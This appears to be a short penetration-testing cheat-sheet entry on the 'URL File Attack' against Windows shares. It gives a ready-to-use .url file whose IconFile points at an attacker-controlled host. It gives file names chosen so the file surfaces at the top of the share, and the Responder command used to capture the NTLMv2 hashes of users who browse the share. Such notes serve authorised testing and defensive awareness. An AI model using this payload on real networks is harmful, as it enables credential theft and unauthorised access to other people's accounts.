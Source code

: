 # URL File Attack

- If we have a user that has all kind of share access we can add this to one of the shares 
  ```
  [InternetShortcut]
  URL=whatever
  WorkingDirectory=whatever
  IconFile=\\ATTACKER-IP\%USERNAME%.icon
  IconIndex=1
  ```
- We have to save it as `"@test.url"` or `"~test.url"`
- We launch responder in our attacking machine `responder -I eth0 -v`
- We get NTLMv2 hashes

## URL File Attack - Resources

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share" %} URL File Attack {% endembed %}
